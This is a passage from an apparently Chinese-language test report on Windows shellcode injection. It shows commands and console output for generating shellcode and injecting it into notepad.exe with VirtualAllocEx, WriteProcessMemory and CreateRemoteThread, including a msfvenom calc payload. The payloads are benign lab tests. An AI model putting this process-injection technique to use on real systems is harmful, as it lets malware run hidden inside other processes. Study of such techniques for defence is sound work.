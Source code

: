 ```c
```

**生成 Shellcode**:
```bash
$ gcc -o fileverify_shellcode.exe fileverify_shellcode.c
$ ./fileverify_shellcode.exe
[+] CreateFileA address: 0x00007FFB3F297240
[+] WriteFile address: 0x00007FFB3F297720
[+] CloseHandle address: 0x00007FFB3F296FA0
[+] ExitThread address: 0x00007FFB3F368DE0
[+] Shellcode generated: 335 bytes
[+] Data section starts at: 142
[+] Shellcode written to fileverify_shellcode.bin
```

**执行注入**:
```bash
$ ./shellcode_injection.exe "C:\Windows\System32\notepad.exe" fileverify_shellcode.bin

[+] Debug 权限已获取
[+] 进程已创建 (PID: 16444)
[+] VirtualAllocEx() 成功，地址: 0x000001EDFA580000
[+] WriteProcessMemory() 成功，写入: 335 bytes
[+] CreateRemoteThread() 成功，线程句柄: 0x00000000000002EC
[*] 等待 shellcode 执行...
[+] Shellcode 执行完成，退出码: 0x0

[+] Shellcode Injection 完成！
```

**验证文件**:
```bash
$ cat C:\Users\Public\shellcode_injection_verified.txt
Shellcode Injection Verified!
Technique: CreateRemoteThread + VirtualAllocEx
Payload: Raw machine code
Status: Shellcode executed successfully!
```

**结果**: ✅ **成功** - 文件创建且内容正确

---

### 测试 4: Calc Shellcode (calc_shellcode.bin)

**来源**: msfvenom 生成的标准 calc payload

**执行结果**:
```bash
$ ./shellcode_injection.exe "C:\Windows\System32\notepad.exe" calc_shellcode.bin

[+] Shellcode 已加载: 272 bytes
[+] 进程已创建 (PID: 22040)
[+] VirtualAllocEx() 成功，地址: 0x0000018619230000
[+] WriteProcessMemory() 成功，写入: 272 bytes
[+] CreateRemoteThread() 成功，线程句柄: 0x00000000000002E4
[*] 等待 shellcode 执行...
[+] Shellcode 执行完成，退出码: 0xC0000005  ❌
```
